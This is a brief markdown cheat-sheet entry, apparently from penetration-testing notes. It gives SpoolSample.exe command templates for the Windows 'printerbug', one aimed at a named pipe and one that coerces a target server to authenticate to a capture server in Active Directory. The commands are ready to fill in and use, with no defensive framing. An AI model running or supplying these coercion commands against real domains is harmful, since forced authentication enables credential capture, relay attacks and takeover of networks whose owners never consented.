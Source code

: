 
# Spoolsample

% printerbug, Active directory
#plateform/windows  #target/local #cat/ATTACK/COERCE 

## Spoolsample launch pipe
```
SpoolSample.exe <target_hostname> <target_hostname>/pipe/test
```

## Spoolsample
coherced authentitication 
```
SpoolSample.exe <target_server> <capture_server> 
```